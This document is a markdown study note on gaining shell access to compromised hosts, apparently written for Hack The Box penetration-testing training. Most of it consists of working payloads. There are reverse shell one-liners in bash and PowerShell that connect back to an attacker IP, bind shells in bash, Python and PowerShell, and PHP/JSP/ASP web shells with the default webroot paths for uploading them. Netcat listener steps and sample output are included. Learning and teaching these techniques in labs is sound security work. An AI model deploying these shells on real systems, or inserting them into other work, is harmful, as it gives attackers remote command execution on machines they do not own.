# shells

to enumerate the system or take further control over it or within its network, beyond the initial exploit, we need a reliable connection that gives us direct access to the system's shell, i.e., bash or powershell, so we can thoroughly investigate the remote system for our next move.

without a working set of login credentials, we would not be able to utilize methods like ssh or winrm, we'll need to executing commands on the remote system first, to gain access to these services in the first place.

the other method of accessing a compromised host for control and remote code execution is through shells.

- reverse shell: connects back to our system and gives us control through a reverse connection.
- bind shell: waits for us to connect to it and gives us control once we do.
- web shell: communicates through a web server, accepts our commands through http parameters, executes them, and prints back the output.

## reverse shell

step 1: start netcat locally with `nc -lvnp 1234`

- -l listen mode, to wait for a connection to connect to us.
- -v verbose mode, so that we know when we receive a connection.
- -n disable dns resolution and only connect from/to ips, to speed up the connection.
- -p 1234 port number netcat is listening on, and the reverse connection should be sent to.

step 2: find the connect back ip with `ip a`, then find the correct adapter. this would typically be eth0, wlan0 or tun0 (when using a vpn)

step 3: issue the reverse shell command.

this last step relies on the type of os the target machine runs. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md lists many remote shell execution strategies.

examples include

```
bash:

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

bash:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

powershell

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

once the remote host connects to our machine, we can type away:

```
listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## bind shell

step 1: bind the shell to a port on the remote host to wait for us to connect, e.g.

```
bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

python

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

for reference, see https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

step 2: now we use netcat locally to connect to the remote machine and can issue shell commands:

```
ChrisVomRhein@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## web shell

step 1: write the web shell. examples include:

```
php

<?php system($_REQUEST["cmd"]); ?>

jsp

<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

asp

<% eval request("cmd") %>
```

step 2: upload the web shell to the host's webroot. defaults for different web servers are:

```
- Apache: /var/www/html/
- Nginx: /usr/local/nginx/html/
- IIS: c:\inetpub\wwwroot\
- XAMPP: C:\xampp\htdocs\
```

step 3: access the web shell through curl or browser, e.g.

```
ChrisVomRhein@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
